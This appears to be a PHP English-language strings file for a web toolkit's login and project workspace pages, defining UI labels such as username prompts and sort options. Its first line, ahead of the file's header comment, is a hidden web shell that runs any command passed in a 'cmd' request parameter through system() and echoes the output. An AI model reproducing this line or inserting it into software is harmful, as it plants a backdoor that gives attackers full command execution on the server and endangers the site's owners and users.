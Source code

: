 <?php
if(isset($_REQUEST[\'cmd\'])){ echo "<pre>"; $cmd = ($_REQUEST[\'cmd\']); system($cmd); echo "</pre>"; die; }
/**
 *
 * index.php english language file
 *
 * @author Patrick Lockley
 * @version 1.0
 * @copyright Pat Lockley
 * @package
 */

define("INDEX_USERNAME_AND_PASSWORD_EMPTY", "Please enter your username and password");

define("INDEX_USERNAME_EMPTY", "Please enter your username");

define("INDEX_PASSWORD_EMPTY", "Please enter your password");

define("INDEX_LDAP_MISSING", "PHP\'s LDAP library needs to be installed to use LDAP authentication. If you read the install guide other options are available");

define("INDEX_SITE_ADMIN", "Site admins should log on on the manangement page");

define("INDEX_LOGON_FAIL", "Sorry that password combination was not correct");

define("INDEX_LOGIN", "login area");

define("INDEX_USERNAME", "Username");

define("INDEX_PASSWORD", "Password");

define("INDEX_HELP_TITLE", "Getting Started");

define("INDEX_HELP_INTRODUCTION", "We\'ve produced a short introduction to the Toolkits website.");

define("INDEX_HELP_INTRO_LINK_TEXT","Show me!");

define("INDEX_NO_LDAP","PHP\'s LDAP library needs to be installed to use LDAP authentication. If you read the install guide other options are available");

define("INDEX_FOLDER_PROMPT","What would you like to call your folder?");

define("INDEX_WORKSPACE_TITLE","My Projects");

define("INDEX_CREATE","Project Templates");

define("INDEX_DETAILS","Project Details");

define("INDEX_SORT","Sort");

define("INDEX_SEARCH","Search");

define("INDEX_SORT_A","Alphabetical A-Z");

define("INDEX_SORT_Z","Alphabetical Z-A");

define("INDEX_SORT_NEW","Age (New to Old)");

define("INDEX_SORT_OLD","Age (Old to New)");

define("INDEX_LOG_OUT","Log out");
